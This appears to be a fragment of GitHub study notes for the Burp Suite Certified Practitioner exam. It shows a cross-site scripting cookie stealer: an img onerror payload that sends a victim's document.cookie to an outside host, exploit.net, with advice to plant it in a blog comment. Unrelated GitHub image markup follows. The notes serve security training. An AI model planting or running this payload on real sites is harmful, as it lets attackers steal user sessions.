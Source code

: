 `#0d1117`
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

**Place payload in blog post comment section for victim to visit and send cookie.**
```
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://user-images.githubusercontent.com/25423296/163456776-7f95b81a-f1ed-45f7-b7ab-8fa810d529fa.png">
  <source media="(prefers-color-scheme: light)" srcset="https://user-images.githubusercontent.com/25423296/163456779-a8556205-d0a5-45e2-ac17-42d089e3c3f8.png">
  <img alt="Shows an illustrated sun in light mode and a moon with stars in dark mode." src="https://user-images.githubusercontent.com/25423296/163456779-a8556205-d0a5-45e2-ac17-42d089e3c3f8.png">
</picture>
